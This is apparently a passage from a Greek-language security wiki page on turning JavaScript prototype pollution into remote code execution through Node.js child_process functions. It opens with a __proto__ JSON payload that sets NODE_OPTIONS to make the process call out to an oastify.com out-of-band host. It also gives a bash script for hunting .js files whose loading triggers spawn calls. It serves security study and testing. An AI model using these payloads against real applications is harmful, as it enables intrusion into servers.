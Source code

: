 ```json
"__proto__": {
"argv0":"node",
"shell":"node",
"NODE_OPTIONS":"--inspect=id\"\".oastify\"\".com"
}
}
```
## Ευπάθεια PP2RCE στις λειτουργίες child\_process

Σε αυτήν την ενότητα θα αναλύσουμε **κάθε λειτουργία από το `child_process`** για να εκτελέσουμε κώδικα και να δούμε αν μπορούμε να χρησιμοποιήσουμε κάποια τεχνική για να αναγκάσουμε αυτήν την λειτουργία να εκτελέσει κώδικα:

<details><summary><code>exec</code> εκμετάλλευση</summary></details>

<details><summary><strong><code>execFile</code> εκμετάλλευση</strong></summary></details>

<details><summary>Εκμετάλλευση της <code>fork</code></summary></details>

<details><summary><strong><code>εκμετάλλευση spawn</code></strong></summary></details>

<details><summary><strong><code>execFileSync</code> εκμετάλλευση</strong></summary></details>

<details><summary><strong><code>execSync</code> εκμετάλλευση</strong></summary></details>

<details><summary><strong><code>spawnSync</code> εκμετάλλευση</strong></summary></details>

## Εξαναγκασμός Spawn

Στα προηγούμενα παραδείγματα είδατε πώς να ενεργοποιήσετε τη λειτουργικότητα του gadget που **καλεί το `spawn`** χρειάζεται να είναι **παρόν** (όλες οι μέθοδοι του **`child_process`** που χρησιμοποιούνται για να εκτελέσουν κάτι το καλούν). Στο προηγούμενο παράδειγμα αυτό ήταν **μέρος του κώδικα**, αλλά τι γίνεται αν ο κώδικας **δεν το καλεί**.

### Έλεγχος ενός αρχείου διαδρομής require

Σε αυτό το [**άλλο άρθρο**](https://blog.sonarsource.com/blitzjs-prototype-pollution/) ο χρήστης μπορεί να ελέγξει τη διαδρομή του αρχείου όπου θα εκτελεστεί ένα **`require`**. Σε αυτό το σενάριο, ο επιτιθέμενος απλά χρειάζεται να **βρει ένα αρχείο `.js` μέσα στο σύστημα** που θα **εκτελέσει μια μέθοδο spawn όταν εισαχθεί**.\
Ορισμένα παραδείγματα κοινών αρχείων που καλούν μια συνάρτηση spawn όταν εισαχθούν είναι:

* /path/to/npm/scripts/changelog.js
* /opt/yarn-v1.22.19/preinstall.js
* Βρείτε **περισσότερα αρχεία παρακάτω**

Το παρακάτω απλό σενάριο θα αναζητήσει **κλήσεις** από **child\_process** **χωρίς καμία προσθήκη** (για να αποφευχθεί η εμφάνιση κλήσεων μέσα σε συναρτήσεις):

{% code overflow="wrap" %}
```bash
find / -name "*.js" -type f -exec grep -l "child_process" {} \; 2>/dev/null | while read file_path; do
grep --with-filename -nE "^[a-zA-Z].*(exec\(|execFile\(|fork\(|spawn\(|execFileSync\(|execSync\(|spawnSync\()" "$file_path" | grep -v "require(" | grep -v "function " | grep -v "util.deprecate" | sed -E 's/.{255,}.*//'
done
# Note that this way of finding child_process executions just importing might not find valid scripts as functions called in the root containing child_process calls won't be found.
```
{% endcode %}
